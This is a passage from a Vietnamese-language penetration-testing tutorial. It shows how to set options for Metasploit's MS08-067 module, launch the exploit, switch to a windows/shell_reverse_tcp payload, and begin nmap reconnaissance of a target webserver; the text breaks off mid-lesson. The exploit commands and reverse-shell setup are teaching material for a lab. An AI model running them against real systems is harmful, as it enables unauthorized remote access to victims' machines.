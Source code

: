 ```
Với tất cả những modules của Metasploit, để có thể sử dụng được một module, bạn cần phải gán giá trị cho những options nằm trong module đó. Để hiện options của module MS08-067, bạn sử dụng câu lệnh sau: ```show options```

Chúng ta sẽ thấy modules MS08-067 cần những options sau:

* RHOST: Địa chỉ IP của máy nạn nhân
* RPORT: Port đang chạy dịch vụ SMB trên máy nạn nhân (mặc định là port 445)
* SMBPIPE: SMB pipe sẽ cho phép bạn tương tác với hệ thống Windows thông qua hệ thống mạng (mặc định là BROWSER)
* Payload options: Lựa chọn dạng payload sẽ chạy sau khi phần mềm khai thác lỗi xâm nhập thành công (mặc định là Meterpreter)
* EXITFUNC: Chỉ định DLL và function để gọi khi payload đã được chạy xong (mặc định là thread)
* LHOST: Địa chỉ IP của máy tấn công
* LPORT: Port đợi kết nối trỏ về

Để gán hoặc thay đổi giá trị của những options này chúng ta sẽ dùng lệnh set. 

Chúng ta sẽ gán giá thị RHOSTS bằng câu lệnh: ```set RHOSTS 10.10.10.9```

Thay đổi giá trị RPORT từ 445 thành 556 bằng câu lệnh sau: ```set RPORT 556```

Thay đổi địa chỉ IP của máy tấn công bằng câu lệnh sau: ```set LHOST 10.0.0.10```

Thay đổi port nhận shell của máy tấn công từ 4444 sang 8888 bằng câu lệnh sau: ```set LPORT 8888```

Sau đó, chúng ta dùng lệnh show options lần nữa để kiểm tra các giá trị ta vừa set

```
Lưu ý:
Khi gán giá trị, các bạn cần lưu ý cột “Required”, những options nào mà cột Required đề là “yes” thì bạn không được bỏ trống. 
```

Sau khi gán giá trị cho các options xong, để tiến hành tấn công, chúng ta sẽ dùng lệnh sau: ```exploit```

Đương nhiên, tấn công sẽ thất bại do hệ thống chúng ta tấn công hoàn toàn không tồn tại. 

Ngoài ra, chúng ta còn có thể thay đổi payload từ Meterpreter thành Reverse TCP shell bình thường với câu lệnh sau:

```set payload windows/shell_reverse_tcp```

# Bài 5: Thực hành tấn công webserver với Metasploit (Phần 1)
## Performing reconnaissance (thu thập thông tin mục tiêu) 
Metasploit có kèm cả Nmap nữa. Nên trong bài hôm nay, chúng ta sẽ sử dụng Nmap bên trong Metasploit để thu thập thông tin cần thiết của webserver mục tiêu. 

Nmap được tích hợp bên trong Metasploit sẽ được chia làm 2 câu lệnh sau:

* db_nmap: Khi sử dụng db_nmap chức năng hoàn toàn tương tự như Nmap bình thường thôi, tuy nhiên kết quả thu được từ db_nmap sẽ được lưu vào cơ sở dữ liệu PostgreSQL nhằm phục vụ cho việc truy xuất lại dữ liệu về sau.
* nmap: Câu lệnh Nmap bình thường, kết quả không được lưu vào cơ sở dữ liệu PostgreSQL của Metasploit.
## Identifying vulnerabilities
Đầu tiên mình tìm tất cả các cổng chạy TCP bằng lệnh: ```nmap -vv -Pn -T4 -p- -oN thuc_hanh_metasploit_TCP_scan <ip address victim>```

*Bởi vì nó phải quét hết hơn 65000 port nên sẽ khá lâu*

Giải thích các tham số:
```